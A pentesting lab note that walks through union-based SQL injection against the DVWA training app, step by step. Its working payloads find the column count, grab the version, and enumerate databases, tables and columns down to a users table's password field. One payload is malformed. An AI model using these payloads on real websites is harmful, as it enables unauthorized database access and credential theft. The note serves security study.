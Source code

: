 # 01 - Database Reconnaissance

#sql-injection #union #dvwa

## 1.1 - Dump Database

### 1.1.1 - Columns Enumeration

^78ef92

#### 1.1.1.1 - UNION Detection

We can double confirm using [[Pentesting Phases/WebApp Hacking/Injection/SQL Injection/01 - In-Band SQL Injection/Lab/01 - DVWA/Difficulty/Low/Manual/02 - Error-Based Query SQL Injection/01 - Database Reconnaissance#^f521af|error-based (ORDER BY)]] fields enumeration.

```sql
' UNION SELECT 1, 2#

' UNION SELECT 1, 2, 3#

' UNION SELECT NULL, NULL#

' UNION SELECT NULL, NULL, NULL#
```

### 1.1.2 - Discovery and Enumeration

#### 1.1.2.1 - UNION Enumeration

##### 1.1.2.1.1 - Banner Grab

Sometimes when we try to retrieve error messages. Sometimes the warning messages may not provide us the SQL server software might be running. However, we can discover it even further to grab the version of the DBMS back-end software is running.

```sql
' UNION SELECT 1, @@VERSION#

' OR 1=1 UNION SELECT 1, @@VERSION#

' UNION SELECT NULL, @@VERSION#

' OR 1=1 UNION SELECT NULL, @@VERSION#
```

- The DBMS server is MariaDB which is a fork of MySQL.

![[1.1 - Banner Grab.png]]

##### 1.1.2.1.2 - Current Database

```sql
' UNION SELECT NULL, DATABASE()#
```

- The current database is `dvwa`

![[1.2 - Current Database.png]]

##### 1.1.2.1.3 - Current Database User

```sql
' UNION SELECT NULL, USER()#
```

- The current database is `dvwa@localhost`

![[1.3 - Current User.png]]

#### 1.1.2.2 - Schema Database Enumeration

```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata#
```

![[1.4 - Enumerate Databases.png]]

Let's enumerate the tables.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables#

' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()#
```

![[1.5 - Enumerate Tables With The Current Database.png]]

You can narrow it down.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database() AND WHERE table_name LIKE 'user%'#
```

`<Insert screenshot>`

Let's note down the tables we've discovered that are potential to retrieve data

```
users
```

Let's enumerate the columns

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns#

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = database() AND table_name = 'users'#
```

![[1.6 - Enumerate Columns With The Current Database.png]]

Let's note down the columns we've discovered that are potential to retrieve data

```
user
password
```
